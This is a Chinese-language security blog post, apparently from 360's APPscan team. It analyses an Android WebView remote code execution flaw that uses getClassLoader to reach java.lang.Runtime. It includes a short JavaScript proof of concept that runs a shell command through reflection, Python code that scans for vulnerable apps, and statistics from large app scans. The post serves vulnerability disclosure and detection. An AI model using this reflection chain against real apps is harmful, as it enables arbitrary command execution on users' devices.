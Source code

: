 ```yaml
---
layout: post
title:  "Android Webview 远程代码执行之getClassLoader"
date:   2016-12-07 23:43:16
categories: Android
excerpt: Android create page
---
```


* content
{:toc}

- 漏洞分析

众所周知，在Android 4.4系统上 Google已经将系统默认的Webkit内核替换成自己的开源项目chromium,并在Issue 213693005（https://codereview.chromium.org/213693005）屏蔽 了webview的object.getClass，android在4.4.4版本上彻底从native层禁止了webview对getClass的调用，从而阻断了一条反射执行命令的道路。但是Context的getClassLoader().loadClass(“java.lang.Runtime”)却是没有被禁止的。

 

## 0x1 漏洞原理

同样是webview远程代码执行，原理也是通过反射的方法调用“java.lang.Runtime”来执行命令。不过不能使用getClass，但是可以使用getClassLoader，代码如下：

 

示例代码

```
var loader = window.local_obj.getClassLoader();

var runtimeClass = loader.loadClass("java.lang.Runtime");

var p=runtimeClass.getMethod("getRuntime",null).invoke(null,null).exec(["ls","/etc/hosts","-l"]);
```

 

## 0x2 漏洞限制

addJavascriptInterface绑定的对象必须为context的子类（一般都是activity），因为这样才能调用getClassLoader。

targetSDKversion <17，只有在targetsdk小于17的时候才能调用js对象的任意方法，targetsdk>=17的情况下只能调用加了@JavaScriptInterface注解的方法。

 

## 0x3 扫描方法

通过分析整个反编译后的smali文件，搜索addJavascriptInterface方法，如果当前类的父类为Context的子类则判定为有漏洞：代码如下：

扫描代码

```java
if apkinfo['manifest_info'].is_internet:

        if int(apkinfo['manifest_info'].target_sdk) <= 16:

            rets = search_invokes("Landroid/webkit/WebView;","addJavascriptInterface")

            ret_ = []

            if len(rets) == 0:

                r_rets.update({'risk':0,'result':[{'vul_id':vul_id,'md5':apkinfo['md5']}]})

                return r_rets

            else:

                for r in rets:

                    r.update({'vul_id':vul_id})

                    r.update({'md5':apkinfo['md5']})

                    v_no = r['dst_params'].split(' ')[1][:-1]

                    if v_no == 'p0':

                        if get_superclass(r['src_class']) in target_superclass:

                            if r not in ret_:

                                ret_.append(r)
```

 

目前APPscan已支持对此新型webview远程代码执行的检测。

![](http://p6.yx-s.com/d/inn/871e8f8f/5.png)

## **0x4** **市场**影响

因为无视google对getClass的屏蔽，所以与android版本无关，只与targetSDK版本有关，在android4.4，5.0，5.1，6.0上均能实现远程代码执行。

![](http://p8.yx-s.com/d/inn/745d5a72/1.png)![](http://p6.yx-s.com/d/inn/9f485332/2.png)

通过对APPscan大数据中的13万 app以及手其他数据来源的8万app扫描，得出以下结果：

|                            | Appscan数据 | 其他来源  |
| -------------------------- | --------- | ----- |
| App总量                      | 133200    | 85574 |
| 符合条件（targetsdk<17，可上网，非加固） | 18087     | 38179 |
| 漏洞数量                       | 203       | 1144  |

![](http://p8.yx-s.com/d/inn/586e0ba3/3.png)       ![](http://p6.yx-s.com/d/inn/ea50d423/4.png)





来源：http://appscan.360.cn/blog/?p=25

